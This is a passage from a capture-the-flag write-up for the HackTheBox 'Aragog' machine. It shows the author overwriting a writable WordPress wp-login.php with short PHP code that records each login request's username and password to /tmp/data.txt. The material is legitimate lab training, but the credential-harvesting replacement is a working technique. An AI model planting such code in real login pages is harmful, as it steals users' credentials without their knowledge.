 Looks like its automating the login process to the WordPress admin panel. We can see some credentials are stored in a dictionary, and used to login, but none of them matches the username we saw in the database, so I presume `cliff` edited this file with the correct credentials. The path to the login script is also different on our target. We dont have `wp-admin/wp-login.php`, we have `wp-login.php`. 

We can see that the login request is a `POST` request with the parameters: `log` for the username, and `pwd` for the password. 

If we can edit the `wp-login.php` file, we might be able to capture the login creds when `cliff` makes a request. Let's see if we can edit the file:

![perms-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Aragog/img/perms-25.png)

Yes we can, Let's try to catch the creds. At first I came up with something like this:


```php
<?php

$data = get_file_contents('php://input');

$path = fopen('/tmp/data.txt', 'w');
fwrite($path, $data);
fclose($path);

?>
```

I deleted the original `wp-login.php` and replaced it with the above code. The reason I picked `get_file_contents` to parse the content's of the POST request is because the `Content-Type` header for the login reqeust was `application/x-www-form-urlencoded`, so using `$_POST` won't work. This code created the `/tmp/data.txt` file, but it was empty. 

So instead, I decided to capture the entire POST request as is using `$_REQUEST` with the following code:

```php
<?php

$request = print_r($_REQUEST, true);
$path = fopen("/tmp/data.txt", "w");
fwrite($path, $request);
fclose($path);

?>
```

This worked, and data was written to the file:

![partial-26](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Aragog/img/partial-26.png)
